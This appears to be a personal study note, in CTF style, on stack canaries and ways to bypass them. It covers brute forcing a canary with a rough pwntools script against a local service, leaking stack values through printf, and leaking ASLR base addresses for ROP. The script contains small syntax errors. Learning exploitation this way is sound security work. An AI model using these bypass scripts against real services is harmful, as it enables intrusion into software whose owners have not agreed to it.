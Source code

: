 # Canary Bypass

## Stack Canaries

Stack canaries are used to detect a stack buffer overflow before execution of any malicious code can occur. This method works by placing a **small integer**, which value has been randomly chosen at the start of the program within the stack **just before the stack return pointer**.&#x20;

We can illustrate how it works through analysing the stack contents:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

When the binary runs, it checks the canary and ensures that it does not change. If altered, the execution would end immediately.&#x20;

Stack canaries are checked for their value just before the return to the calling function, which is where attackers would normally gain control over the instruction pointer.&#x20;

### Types of Canaries

There are many types of canaries, but here are the most common ones:

|                   |                     |                          |
| ----------------- | ------------------- | ------------------------ |
| _Type_            | _Example_           | _Protection_             |
| Null canary       | 0x00000000          | 0x00                     |
| Terminator canary | 0x00000aff          | 0x00, 0x0a, 0xff         |
| Random canary     | \<any 4-byte value> | Usually starts with 0x00 |
| Random XOR canary |                     | Usually starts with 0x00 |
| 64-bit canary     | <8 bytes>           |                          |
| Custom canary     |                     |                          |

Each canary has their own set of advantages and security measures introduced:

* Null Canary is the most simple as it's just 4 NULL bytes. However, this is the most vulnerable of canaries because its predictable and **there are functions that can read null canaries**.
* Terminator Canaries introduces two or more hex values that attempt to terminate string operations. These values are still predictable
* Random Canaries are better in terms fo protection, and **usually consist of a NULL byte followed by 3 random bytes**. The NULL byte would attempt to terminate string operations, while the 3 random bytes will make the canary less predictable.
* The random XOR canary is similar to the random canary, but its value is XOR'd against a non-static value in the program, such as the EBP. Since most binaries run with ASLR enabled, this provides a lot more security.&#x20;

## Bypasses

### Brute Forcing

One of the ways is to brute force and randomly guess the canary. This only works **if the canary is a  static value and it has the same canary everytime** (common for network services). We can brute force a canary **char by char** and see if the program crashes or continues.

This is the python script I use to brute force canaries:

```python
from pwn import *

def connect():
    r = remote("localhost", 13337)
    
def get_cookie(base):
    canary = ''
    guess = 0x0
    base += canary
    
    while len(canary) < 8 # or 4 if 32-bit
        while guess != 0xff:
            r = connect()
            
            r.recvuntil("if needed")
            r.send(base + chr(guess))
            # add as many r.recvuntil as needed.
            
            if "OUTPUT IS PRODUCED" in r.clean():
                print("Guessed Correct bytes", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()
        print(canary)
        return base
    
offset = 123
base = "A" * offset
base_canary = get_cookie(base)
print (base_canary)
```

The rough script is like this using `pwntools`.&#x20;

### Printing Stack Values

Another way is to print out the values of the stack and view the canary. Most canaries begin with the NULL byte of \x00, and we can make use of certain functions, like `printf` that may be running within the binary to see the values of the stack.&#x20;

Alternatively, one could create a script that would intercept the value of the canary and then send the exploit later with this value. In some cases, this is the only way to exploit the binary due to a randomised value.&#x20;

### ASLR Bypass

As with all ASLR bypasses, the main thing to leak is the **base address value**. This can be done through the usage of an LFI exploit to read the processes that are running (like in HTB Retired), or calculation of the base through brute-forcing the instruction and base pointer values.&#x20;

Once the base is leaked, the **offsets** can be calculated to create a ROP chain if needed.
